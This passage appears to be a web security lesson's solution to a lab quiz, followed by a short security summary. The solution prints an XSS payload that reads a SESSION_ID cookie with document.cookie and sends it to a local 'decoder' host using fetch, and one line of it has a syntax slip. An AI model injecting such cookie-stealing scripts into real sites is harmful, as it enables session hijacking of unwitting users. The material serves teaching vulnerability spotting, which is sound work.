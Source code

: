 The bad website page has a form that is vulnerable to cross site scripting.

You need to exploit this vulnerability by sending this site's cookie to the decoder website.

To complete this quiz, create a `fetch` request using the URL below. You need to use JavaScript to set the key to the value of the bad website's SESSION_ID cookie.

[![cs5-33](../assets/images/cs5-33-small.jpg)](../assets/images/cs5-33.jpg)

If you did everything correctly, the server will give you a pass phrase. And that's the server, not the browser's console, so check the terminal.

#### 5.12 Solution
The URL I need for fetch is

```html
http://decoder.127.0.0.1.xip.io:8080/?key=
```

Now I need to set the `key` value to the SESSION_ID in cookie. `document.cookie` gets all of the cookies. Then I'll split on the equal sign and I'll get the cookies value.

```js
document.cookie.split('=')[1];
```

This code is rather naive and assumes that the session ID cookie is the very first one, which it is, in this case.

```bash
james
> <script>
> fetch('http://decoder.127.0.0.1.xip.io:8080/?key='
> +document.cookie.split('=').[1]);
> </script>
```

[![cs5-34](../assets/images/cs5-34-small.jpg)](../assets/images/cs5-34.jpg)

If I wanted a more robust script I might have used this.

```js
document.cookie.slice(
    document.cookie.indexOf('SESSION_ID')
).split('=')[1]
```

### 5.13 Security Summary
Security is not an easy subject, and the issues we covered in this lesson are not sufficiently fixable on just the front end.

Your back end, whatever it is, needs to implement validation as well to be properly secured against CSRF and cross-site scripting attacks.

What you have learned here is how to spot potential vulnerabilities, and how to verify if they are exploitable.

Whenever you are about to add any kind of input field in your web app, you should immediately start thinking about cross-site scripting and CSRF, and whether there are potential risks that need to be mitigated.
